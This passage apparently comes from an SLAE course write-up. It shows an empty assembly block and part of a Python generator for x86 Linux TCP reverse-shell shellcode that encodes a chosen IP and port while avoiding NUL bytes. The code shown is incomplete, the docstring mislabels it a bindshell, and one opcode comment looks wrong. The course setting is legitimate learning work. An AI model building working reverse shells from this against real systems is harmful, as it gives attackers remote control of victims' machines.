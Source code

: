 ```nasm
```

### Wrapper Script
*[Wrapper on Github](https://github.com/fbcsec/slae-assignments/blob/master/2-tcp-reverse-shell/tcp-reverse-shell-wrapper.py)*

```python
#!/usr/bin/env python3
"""
x86 Linux TCP Bindshell Generator
Handles portnumbers and destination IPs which have NULs in their hex representation
Usage: this_script.py <ip> <port>
Author: fbcsec
This code was written to fulfill the requirements of the SecurityTube Linux Assembly Expert course:
http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html
Student ID: SLAE - 1187
"""
from sys import argv

from socket import inet_aton


def generate_ip_shellcode(ip_half):

    rv = ''

    if ip_half == '0000':
        rv = "\x66\x52"   # push word dx

        return rv

    if ip_half[0:2] == '00':
        rv = ("\x80\xc6" +  # add dh <ip half low bytes>
              bytearray.fromhex(ip_half[2:4]).decode('iso8859-1') +
              "\x66\x52" +  # push word dx
              "\x31\xd2")   # xor edx, edx
        return rv
    elif ip_half[2:4] == '00':
        rv = ("\x80\xc2" +  # add dl <ip half high bytes>
              bytearray.fromhex(ip_half[0:2]).decode('iso8859-1') +
              "\x66\x52" +  # push word dx
              "\x31\xd2")   # xor edx, edx
        return rv
    else:
        rv = ("\x66\x83" +  # push word <ip_half>
              bytearray.fromhex(ip_half).decode('iso-8859-1'))
        return rv

if len(argv) != 3:
    print('Usage: %s <ip_to_connect_to> <port>')
    raise SystemExit

ip = argv[1]
port = int(argv[2])

if port > 65535:
    print('ERROR: Port number cannot be greater than 65535.')
    raise SystemExit

if port == 0:
    print('ERROR: Port 0 is not usable.')
    raise SystemExit

```